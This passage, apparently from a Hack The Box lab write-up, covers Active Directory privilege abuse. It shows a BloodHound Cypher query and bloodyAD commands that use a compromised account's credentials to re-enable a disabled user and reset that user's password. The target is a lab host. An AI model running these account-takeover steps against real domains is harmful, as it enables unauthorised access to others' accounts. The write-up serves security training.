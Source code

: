 Cipher Query I used:

```sql
MATCH p = shortestPath((n)-[*1..]->(c))  WHERE n.name =~ '(?i)ant.edwards.*' AND NOT c=n  RETURN p
```

<figure><img src="../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

Due to the fact that Adam Silver has a disabled account, we will enable it. I found that the easiest tool nowadays to do ldap changes seems to be BloodyAD.

```
bloodyAD --host 10.129.232.75 -d puppy.htb -u ant.edwards -p Antman2025! remove uac adam.silver -f ACCOUNTDISABLE
```

<figure><img src="../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

Now, using our rights we will change the password:

```
bloodyAD --host 10.129.232.75 -d puppy.htb -u ant.edwards -p Antman2025! set password adam.silver Password123!
```

<figure><img src="../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>
